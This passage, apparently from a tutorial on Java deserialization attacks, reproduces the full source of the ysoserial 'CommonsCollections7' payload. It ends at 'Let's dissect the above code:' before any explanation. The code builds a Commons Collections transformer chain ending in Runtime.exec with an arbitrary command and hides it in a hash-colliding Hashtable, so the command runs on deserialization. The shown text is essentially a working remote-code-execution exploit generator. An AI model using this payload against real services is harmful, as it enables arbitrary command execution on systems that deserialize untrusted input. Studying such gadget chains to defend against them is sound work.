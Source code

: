 ```java
public class CommonsCollections7 extends PayloadRunner implements ObjectPayload<Hashtable> {

    public Hashtable getObject(final String command) throws Exception {

        // Reusing transformer chain and LazyMap gadgets from previous payloads
        final String[] execArgs = new String[]{command};

        final Transformer transformerChain = new ChainedTransformer(new Transformer[]{});

        final Transformer[] transformers = new Transformer[]{
            new ConstantTransformer(Runtime.class),
            new InvokerTransformer("getMethod",
                new Class[]{String.class, Class[].class},
                new Object[]{"getRuntime", new Class[0]}),
            new InvokerTransformer("invoke",
                new Class[]{Object.class, Object[].class},
                new Object[]{null, new Object[0]}),
            new InvokerTransformer("exec",
                new Class[]{String.class},
                execArgs),
            new ConstantTransformer(1)};

        Map innerMap1 = new HashMap();
        Map innerMap2 = new HashMap();

        // Creating two LazyMaps with colliding hashes, in order to force element comparison during readObject
        Map lazyMap1 = LazyMap.decorate(innerMap1, transformerChain);
        lazyMap1.put("yy", 1);

        Map lazyMap2 = LazyMap.decorate(innerMap2, transformerChain);
        lazyMap2.put("zZ", 1);

        // Use the colliding Maps as keys in Hashtable
        Hashtable hashtable = new Hashtable();
        hashtable.put(lazyMap1, 1);
        hashtable.put(lazyMap2, 2);

        Reflections.setFieldValue(transformerChain, "iTransformers", transformers);

        // Needed to ensure hash collision after previous manipulations
        lazyMap2.remove("yy");

        return hashtable;
    }

    public static void main(final String[] args) throws Exception {
        PayloadRunner.run(CommonsCollections7.class, args);
    }
}
```
Let's dissect the above code:
